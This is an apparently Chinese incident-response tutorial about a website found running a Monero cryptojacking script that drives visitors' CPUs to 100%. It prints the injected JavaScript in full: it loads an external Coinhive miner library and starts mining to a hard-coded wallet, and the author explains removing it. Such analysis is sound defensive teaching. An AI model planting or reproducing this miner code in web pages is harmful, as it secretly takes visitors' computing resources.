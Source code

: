 ```yaml
---
title: 第06章：Web实战篇第2篇：门罗币恶意挖矿
date: '2024-06-13 13:10'
categories: 渗透测试
tags: 应急响应
cover: 'https://gitee.com/eviden/img/raw/master/33591dfae30e46459108dc785e1217a9.png'
description: 学习应急响应咯!
abbrlink: 3ed12ca6
---
```

                
## 第2篇：门罗币恶意挖矿

门罗币(Monero 或 XMR)，它是一个非常注重于隐私、匿名性和不可跟踪的加密数字货币。只需在网页中配置好js脚本，打开网页就可以挖矿，是一种非常简单的挖矿方式，而通过这种恶意挖矿获取数字货币是黑灰色产业获取收益的重要途径。

### 现象描述

利用XMR恶意挖矿，会大量占用用户的CPU资源，严重影响了网站的用户体验。

从08/09日0点开始，局域网内某IP访问网站页面会触发安全预警，只要访问此服务器上的网页，CPU直线上升100%

![](./image/2-5.jpg)

### 问题解析

通过获取恶意网页url，对网页页面进行分析，发现网站页面被植入在线门罗币挖矿代码：

`<script>  
    var script = document.createElement('script');  
    script.onload = function () {  
        // XMR Pool hash  
		var m = new CoinHive.Anonymous('BUSbODwUSryGnrIwy3o6Fhz1wsdz3ZNu');  
       // TODO: Replace the below string with wallet string  
		m.start('47DuVLx9UuD1gEk3M4Wge1BwQyadQs5fTew8Q3Cxi95c8W7tKTXykgDfj7HVr9aCzzUNb9vA6eZ3eJCXE9yzhmTn1bjACGK');  
    };  
    script.src = 'https://coinhive.com/lib/coinhive.min.js';  
    document.head.appendChild(script);  
</script>  `

删除js里面的恶意代码，网站被XMR 恶意挖矿，服务器已经被攻击，进一步做服务器入侵排查。